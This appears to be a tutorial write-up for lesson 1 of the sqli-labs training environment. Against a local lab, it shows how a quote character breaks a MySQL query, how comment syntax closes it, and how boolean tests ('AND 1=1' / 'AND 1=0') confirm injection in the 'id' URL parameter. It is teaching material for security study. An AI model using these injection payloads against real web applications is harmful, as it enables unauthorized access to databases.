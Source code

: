 #### 1. Lesson 1

```
http://127.0.0.1/sqli-labs/Less-1/?id=1
http://127.0.0.1/sqli-labs/Less-1/?id=2
http://127.0.0.1/sqli-labs/Less-1/?id=3
```

![](images/1/1.png)

![](images/1/2.png)

![](images/1/3.png)

```sql
select Login name, Password from table where id = [our_input]
```

```sql
select Login name, Password from table where id = 1
select Login name, Password from table where id = 2
select Login name, Password from table where id = 3
```

```
http://127.0.0.1/sqli-labs/Less-1/?id=somevalue
http://127.0.0.1/sqli-labs/Less-1/?id=123snyt
http://127.0.0.1/sqli-labs/Less-1/?id=99999999
```

![](images/1/4.png)

![](images/1/5.png)

![](images/1/6.png)

```
http://127.0.0.1/sqli-labs/Less-1/?id=1"
```

![](images/1/7.png)

```
http://127.0.0.1/sqli-labs/Less-1/?id=1'
```

![](images/1/8.png)

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1'' LIMIT 0,1' at line 1
```

```
''1'' LIMIT 0,1' at line 1
'  '1'  ' LIMIT 0,1' at line 1
   '1' ' LIMIT 0,1
'   1'    ' LIMIT 0,1
1'
```

Remove the first and the last ```'``` and 3 more quotes will be left out of which 2 of them encapsulate out input

```
http://localhost/sqli-labs/Less-1/?id=1\
```

![](images/1/9.png)

```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''1\' LIMIT 0,1' at line 1
```

```
''1\' LIMIT 0,1'
'1\' LIMIT 0,1
1\
```

###### Comments in MySQL

```
--
```

```
#
```

```
/* */
```

```
http://localhost/sqli-labs/Less-1/?id=1'--%20
```

![](images/1/10.png)

```
http://localhost/sqli-labs/Less-1/?id=1'#%20
http://localhost/sqli-labs/Less-1/?id=1'%23%20
```

![](images/1/11.png)

```
'1\' LIMIT 0,1
'1'--+     ' LIMIT 0,1
```

```
http://localhost/sqli-labs/Less-1/?id=1
http://localhost/sqli-labs/Less-1/?id=1'
http://localhost/sqli-labs/Less-1/?id=1'--+
```

![](images/1/12.png)

![](images/1/13.png)

![](images/1/14.png)

```
http://127.0.0.1/sqli-labs/Less-1/?id=1' AND 1=1 --+
http://127.0.0.1/sqli-labs/Less-1/?id=1' AND 1=0 --+
```

![](images/1/15.png)

![](images/1/16.png)